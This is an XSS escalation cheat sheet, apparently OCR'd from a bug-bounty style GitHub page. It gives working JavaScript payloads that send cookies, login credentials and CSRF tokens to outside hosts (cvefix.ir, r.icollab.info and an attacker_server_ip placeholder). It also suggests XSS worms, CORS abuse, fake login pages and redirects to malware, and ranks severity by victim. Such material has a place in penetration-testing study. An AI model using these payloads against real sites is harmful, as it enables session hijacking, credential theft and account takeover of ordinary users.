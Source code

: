 # Escalate
- Extract Cookie via `<img>`
  ```html
  <script>document.write('<img src="http://cvefix.ir:8080/?id='+document.cookie+'"/>')</script>
  ```
- Use XSS to bypass SOP and access to `csrf_token` and do any action that an admin can do like *Add New User*.
- Try to leak P2 information.
- Try to get possible account takeover.
  ```html
  <script>
  function hijacked() {
     var username = document.getElementsByName ("username") [0].value
     var password = document.getElementsByName ("password") [0].value
     img = new Image();
     img.src="https://r.icollab.info/poc.php?u=" + username + "&password=" + password;
     setTimeout('document. forms [0].submit();', 3000);
     return false;
  }
  document. forms [0] .onsubmit = hijacked;
  </script>
  ```
- Try to code an XSS worm in stored XSS.
- Search for the CORS. many main domains accepts the vulnerable subdomain as a valid **Origin**.
- Severity Based on XSS types:
  - **Stored XSS** on a public forum can realistically attack anyone who visits that forum page, so stored XSS is considered the most severe.
  - **Reflected** or **DOM XSS** can affect only users who click the malicious link.
  - **Self XSS** requires a lot of user interaction and social engineering to execute, so they are normally considered lower impact. We can use click-jacking vulnerability to exploit self-XSS.
- Severity Based on the identities of the affected users:
  - System administrators
    - Access to customer data, internal files, API keys
    - RCE by uploading a shell or execute scripts as the admin
  - General user
    - Steal private data like cookies and session tokens 
    - Reads the CSRF token embedded on the victim’s page and sends it to the attacker’s server as a URL parameter named token. So we can execute actions on their behalf by using those tokens to bypass CSRF protection on the site.
      ```javascript
      var token = document.getElementsById('csrf-token')[0];
      var xhr = new XMLHttpRequest();
      xhr.open("GET", "http://attacker_server_ip/?token="+token, true);
      xhr.send(null);
      ```
- Phishing
  - Dynamically alter the page the victim sees, so you can replace the page with a fake login page and trick the user into giving you their credentials (often called ). 
- Redirect
  - Automatically redirect the victim to malicious pages and perform other harmful operations while posing as the legit site, such as installing malware.
